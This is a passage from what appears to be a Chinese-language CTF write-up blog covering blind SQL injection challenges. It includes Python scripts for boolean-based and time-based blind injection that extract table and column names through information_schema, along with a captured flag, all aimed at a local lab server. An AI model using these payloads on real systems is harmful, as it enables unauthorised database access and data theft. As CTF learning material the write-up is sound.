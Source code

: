           payload=f'Alice\'and({asc})#'			/拼装payload
      
          res=requests.get(url=url,params={'student_name':payload})
      
          if 'Alice' in res.text:
              print('[+] bingo',c)
              result += c
              print(result)
              break
  
  ```

* 然后再小改一下{tables}就可以用来爆列名，和数据了

* 拿到**flag{NEwSTAr_CTf-ZOZ488fd40be27}**（真慢啊~）
  ![](https://blog.chrizsty.cn/wp-content/uploads/2024/12/屏幕截图-2024-12-01-133110.png)

### blindsql2

* 情况和上一题类似，主要区别就是一道布尔盲注一道时间盲注

* 这里判断方式和上题一样

* ```python
  import requests
  import time
  import string
  
  url='http://127.0.0.1:1453/'
  result=''
  
  for i in range(1,100):
      print(f'[+] booming {i}')
      pre_requests=''
      for c in string.ascii_letters + string.digits + '_-{}':
          time.sleep(0.2)
  
          print("[+] trying:",c)
  
          tables=f'(Select(group_concat(column_name))from(information_schema.columns)where((table_schema)like(database())and((table_name)like(\'secrets\'))))'		/上一题写爆表名，这里写爆列名
  
          char=f'(ord(mid({tables},{i},1)))'
  
          asc=f'(({char})in({ord(c)}))'
  
          payload=f'Alice\'and(if(({asc}),sleep(5),0))#'		/修改payload，如果字符猜测正确则等待1s再传数据
  
          res=requests.get(url=url,params={'student_name':payload})
  
          if res.elapsed.total_seconds() > 5:		/修改判断语句，以相应时间为判断条件
              print('[+] bingo',c)
              result += c
              print(result)
              break
  
  ```
